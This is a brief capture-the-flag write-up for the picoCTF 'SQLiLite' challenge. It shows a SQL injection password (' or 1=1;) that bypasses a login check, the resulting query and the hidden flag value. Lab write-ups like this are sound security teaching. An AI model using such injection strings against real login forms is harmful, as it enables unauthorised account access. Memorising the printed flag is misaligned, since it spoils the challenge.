

# SQLiLite (Medium)
Can you login to this website?

Try to login here.

## Solution
If we log into the website with wrong credentials, we get the following response:



So let's try a SQL injection to bypass the password check with the username `admin` and the password `' or 1=1;`:


If we inspect the source, we find the flag:
```html
<pre>username: admin
password: &#039; or 1=1;
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; or 1=1;&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>
```
